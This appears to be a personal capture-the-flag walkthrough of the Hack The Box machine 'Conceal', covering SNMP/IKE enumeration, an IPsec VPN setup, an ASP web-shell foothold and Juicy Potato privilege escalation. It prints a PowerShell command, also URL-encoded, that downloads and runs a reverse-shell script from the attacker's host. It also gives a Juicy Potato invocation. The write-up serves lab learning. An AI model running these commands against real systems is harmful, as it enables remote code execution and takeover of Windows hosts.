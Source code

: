 # Conceal Helped-Through

Name: Conceal
Date:  13/11/2022
Difficulty: Hard 
Goals: OSCP Prep
Learnt:
- snmp-check output is bonkers
- 5353 (multicat dns)
- 5355 (LLMNR) - responder catch hashes from this 
- ike-scan -m  for better output
- Ipsec
- Setting up VPN servers
- nmap does not SYN through a VPN
- Strongswan is very picky
- Simple asp shell is best shell
- CLSID Keys
- Batch files to do IEX powershell reverse shelling

Having a bad hardware day... Therefore to keep the proverbial paddling  of a good life going ever on, Ippsec video on standby to learn why this box is so hard to enumerate and how I can encorporate more diligence when facing challenges that do not want to be found.

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Conceal/Screenshots/ping.png)

[isakmp](https://en.wikipedia.org/wiki/Internet_Security_Association_and_Key_Management_Protocol)

I did an Ikescan to find this, awhile ago knowing the box is hard. Just here to learn and textual fill in the gaps,:

```
CONCEAL : 9C8B1A372B1878851BE2C097031B6E43
iso.3.6.1.2.1.1.4.0 = STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"
```

On hearing the introduction I have never step up a vpn from nothing. So I will also do that. 

![](ntlmdudecake.png)

`Dudecake1!`

```bash
snmp-check -l 
```

At this point I fired up researching Ipsec protocol, because I think I have not covered it much to liTTLe in my notes. The VPN protocol - it authenicates and encrypts packets to provide secure communication between two computer. I will release my articles on making my own tomorrow evening along with the Ipsec related information. [Strongswan](https://en.wikipedia.org/wiki/StrongSwan) is apparently really complex and frail as of 4 years ago, will look into a better version. I looked into OpenVPN, but I would need to transfer config.

We need to install strongswan, because we want to create a transport vpn because a tunnel mode would encrypt traffic were cant exchange or debug at the other end. Trouble IPsec with [https://docs.netgate.com/pfsense/en/latest/troubleshooting/ipsec.html]. With some reading I decided to move on from this box until I need to make a VPN with Strongswan. I learnt about Ipsec, but Strongswan has evolved since, but
Ipsec manual and Ipsec.secrets, the Strongswan documentation is rough.

```bash
sudo apt install strongswan

# Ipsec.secrets
sudo vim /etc/ipsec.secrets
$ip %any : PSK "$Key" 

echo "
conn Conceal
        type=transport
        keyexchange=ikev1
        left=$IP
        leftprotoport=tcp
        right=$Coneals_IP
        rightprotoport=tcp
        authby=psk
        esp=3des-sha1
        fragmentation=yes
        ike=3des-sha1-modp1024
        ikelifetime=8h
        auto=start
" | sudo tee -a /etc/ipsec.conf

sudo ipsec start --nofork
# more issues change the maximum transmission unit 
# 
ifconfig tun0 mtu 1000 
```

![](wowvpninyourvpn.png)

At this point I thought I might as well pause the video and try hacking in from here for 30 minutes. 

## Exploit

FTP anonymous login with permissions to upload, but I cant print the directory or its contents. 
![](ftpupload.png)

Tried the webserver to see if it is link somehow. 
![1000](uploaddir.png)
No rcpclient, smb - retried uploading:
![](testing.png)

![](aspcmddoesnotwork.png)

Tried others and with aspx and failed. 

## Foothold 

I ended up using the very simple asp shell that is awesome from [0xdf](https://0xdf.gitlab.io/2019/05/18/htb-conceal.html)

```powershell
# The power of executing in memory powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.109/Invoke-PowerShellTcp.ps1')"
# Url encode
cmd=%70%6f%77%65%72%73%68%65%6c%6c%20%22%49%45%58%28%4e%65%77%2d%4f%62%6a%65%63%74%20%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%64%6f%77%6e%6c%6f%61%64%53%74%72%69%6e%67%28%27%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%31%30%39%2f%49%6e%76%6f%6b%65%2d%50%6f%77%65%72%53%68%65%6c%6c%54%63%70%2e%70%73%31%27%29%22
```

![](boxon.png)



## PrivEsc

Having recently compile every Potato exploit under the sun in the last 10 hours. It will be nice that Juicy Potato will work
![1080](potatotime.png)

From 0xDF I learnt about CLSIDs.
[RTFM](https://learn.microsoft.com/en-us/windows/win32/com/clsid-key-hklm)
A CLSID is a globally unique identifier that identifies a COM class object. If your server or container allows linking to its embedded objects, you need to register a CLSID for each supported class of objects.

`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{CLSID}`

Nothing wants to run.
```
.\jp.exe -t * -l 9001 -p <put a batch file that pull another powershell reverse shell into memory> -c '{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}'
# -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```


![](system.png)